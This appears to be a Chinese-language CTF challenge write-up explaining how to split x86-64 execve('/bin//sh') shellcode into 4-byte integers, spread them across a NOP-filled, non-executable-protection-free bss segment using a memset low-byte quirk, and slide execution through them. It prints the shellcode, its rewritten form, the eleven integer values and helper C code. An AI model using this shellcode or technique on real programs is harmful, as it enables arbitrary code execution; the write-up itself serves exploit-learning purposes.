 > purecall

看到一篇堆喷的文章，联想到能不能**打散shellcode**，放到没开NX的bss段上，**填充nop**就可以滑完整个shellcode了

**改动**

这里需要注意一下memset的用法，很多人认为第二个参数只能是0或1，对应第二个参数是0和-1(0xffffffff)

最近偶然间得知了`memset`的一个特性，出于历史原因考虑（好像），函数原型的第二个参数是`int`型

但是库函数在函数操作时，往往是取低8位，再复制3份扩展成32位

于是这里写了2个奇怪的check，强制发现这个特性（虽然不知道还有没有其他绕过方法）

如果简单输入`0x90`，显然是没发现这个特性，而这个数是144（十进制），会挂在平方数的check1上

如果简单输入`0x90909090`，那就会死在check2上，要求高8位等3个8位不等于低8位

于是最后随便搞一个`0x12345690`，于是bss段会被低8位`0x90` 填充

> 这应该不算是脑洞吧......

一开始想的是，输入的字符串，打散为单个字符，但是shellcode中大部分都是多个机器码组成的

想了半天...也没有办法全部用单个机器码的指令组成shellcode

那换个条件，以`int`的形式读入shellcode，然后4字节4字节地打散

(这段shellcode是我网上随便找的)

```asm
'''
0000000000400080 <_start>:
  400080:	50                   	push   %rax
  400081:	48 31 d2             	xor    %rdx,%rdx
  400084:	48 31 f6             	xor    %rsi,%rsi
  400087:	48 bb 2f 62 69 6e 2f 	movabs $0x68732f2f6e69622f,%rbx
  40008e:	2f 73 68 
  400091:	53                   	push   %rbx
  400092:	54                   	push   %rsp
  400093:	5f                   	pop    %rdi
  400094:	b0 3b                	mov    $0x3b,%al
  400096:	0f 05                	syscall
'''
```

shellcode都类似这种

其中`movabs $0x68732f2f6e69622f,%rbx`这条指令太长了

考虑一下...无非是要对`rbx`赋值

我这里给出想到的一种方法

```assembly
	movabs $0x68732f2f6e69622f,%rbx
	==

	mov bx,0x6873		66 BB 73 68
	shl rbx,16			48 C1 E3 10
	mov bx 0x2f2f		66 BB 2F 2F
	shl rbx,16			48 C1 E3 10
	mov bx,0x6e69		66 BB 69 6E
	shl rbx,16			48 C1 E3 10
	mov bx 0x622f		66 BB 2F 62
```

那这样以后，每条指令的机器码长度都小于等于4了，符合int的条件

```asm
  50                   	push   %rax
  48 31 d2             	xor    %rdx,%rdx
  48 31 f6             	xor    %rsi,%rsi
 
 	mov bx,0x6873		66 BB 73 68
	shl rbx,16			48 C1 E3 10
	mov bx 0x2f2f		66 BB 2F 2F
	shl rbx,16			48 C1 E3 10
	mov bx,0x6e69		66 BB 69 6E
	shl rbx,16			48 C1 E3 10
	mov bx 0x622f		66 BB 2F 62
 
  	53                   	push   %rbx
  	54                   	push   %rsp
  	5f                   	pop    %rdi
  	b0 3b                	mov    $0x3b,%al
  	0f 05                	syscall
```

题目中限定第二次输入11个int

我们组合一下短指令

```assembly
  50                   	push   %rax
  48 31 d2             	xor    %rdx,%rdx
  
  ==
  50 48 31 d2
```

有些不好组合的，比如长度为3的指令，就填充nop 90

```assembly
 48 31 f6  (90)            	xor    %rsi,%rsi
```

最后可以得到一种形如这样的shellcode，正好可以结合成11个int

```a
	50 48 31 d2       
  	48 31 f6 90             
   	66 BB 73 68
	48 C1 E3 10
	66 BB 2F 2F

	48 C1 E3 10
	66 BB 69 6E
	48 C1 E3 10
	66 BB 2F 62
  	53 54 5f 90                   	
  	b0 3b 0f 05 
```

对应的整形值...我是手动输入然后C语言跑的

```C
int main(int argc, char**argv){
	printf("%d ", 0xd2314850);
	printf("%d ", 0x90f63148);
	printf("%d ", 0x6873bb66);
	printf("%d ", 0x10e3c148);
	printf("%d ", 0x2f2fbb66);
	printf("%d ", 0x10e3c148);
	printf("%d ", 0x6e69bb66);
	printf("%d ", 0x10e3c148);
	printf("%d ", 0x622fbb66);
	printf("%d ", 0x905f5453);
	printf("%d ", 0x050f3bb0);
	
	return 0;
}
```

```
-768522160 -1862913720 1752415078 283361608 791657318 283361608 1852423014 283361608 1647295334 -1872800685 84884400
```

现在再考虑**打散**的问题

代码中第一个输入的整形数，会memset整个bss段

我们把nop填满bss段就可以了

把输入的11个int数值按顺序~~伪随机~~地插入到bss段上

遇到nop就继续往下滑，最后就能跑完整个shellcode了









